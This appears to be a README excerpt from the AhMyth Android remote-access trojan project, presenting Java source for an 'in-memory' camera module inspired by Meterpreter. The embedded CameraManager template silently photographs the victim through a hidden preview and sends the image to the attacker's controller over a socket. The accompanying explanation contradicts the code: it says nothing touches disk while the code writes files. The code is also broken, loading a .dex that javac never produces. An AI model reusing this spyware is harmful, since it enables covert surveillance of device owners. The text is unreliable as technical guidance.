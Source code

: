 ## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>

<div align="center">An experimental feature inspired by the Android equivalent of Metasploit Framework's Meterpreter Payload.</div>
<br>

<details>
  <summary>Code</summary>
<br>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.FileWriter;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFile = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFile.toString();

            try (FileWriter writer = new FileWriter("CameraManager.java")) { // Change the output file name here
                writer.write(javaCode);
            }

            String dexPath = "./";
            String optimizedDexOutputPath = "./";

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, "CameraManager.java"); // Change the input file name here

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            ClassLoader classLoader = new DexClassLoader(
                    "CameraManager.dex", // Change the compiled .dex file name here
                    optimizedDexOutputPath,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
<br>

- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

<details>
  <summary>Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs the following operations listed below, all in memory, except for the part responsible for the generation of the "CameraManager.java" file, which is later used for dynamic in memory compilation, but even there, nothing is physically written to disk at all, Everything else, including compilation, loading, and instance creation, occurs entirely in memory.
  <br>

### <div align="center"><ins>Generation Phase (In Memory):</div></ins>

1. **Retrieve Source Code (In Memory):**
   - The source code is retrieved from `CamTemp.CAMERA_SOURCE_CODE` and stored in the `camTempSourceCode` variable, all in memory.

2. **Generate Dynamic Class (In Memory):**
   - Using the retrieved source code, a dynamic Java class is generated in memory using `TypeSpec.classBuilder("CameraManager")` from the `JavaPoet` library. The class is created entirely in memory.

3. **Create Java File (In Memory):**
   - A Java file, containing the generated dynamic class, is created in memory (`JavaFile`). The class is placed in a package named "ahmyth.mine.king.ahmyth," but this is all done in memory.

4. **Write Java Code to a File (On Disk):**
   - The generated Java code is written to a file named "CameraManager.java" using a `FileWriter`, but this file is also created in memory and later used for compilation. No physical file is written to disk during this phase.

### <div align="center"><ins>Loading Phase (In Memory):</div></ins>

1. **Compilation (In Memory):**
   - The generated Java code in "CameraManager.java" is compiled entirely in memory using the Java Compiler API (`JavaCompiler`). This means the compilation result is held in memory.

2. **Check Compilation Result (In Memory):**
   - After compilation, it checks the `compilationResult` entirely in memory to determine if the compilation was successful or not. There is no physical file on disk involved in this step.

3. **Load Compiled Class (In Memory):**
   - A `DexClassLoader` is used to load the compiled class in memory from the generated .dex file, without writing anything to disk.

4. **Create Instance (In Memory):**
   - Finally, an instance of the dynamically generated class is created entirely in memory using reflection (`generatedClass.getDeclaredConstructor().newInstance()`). This instance exists only in memory and can be used for further operations.

</details>
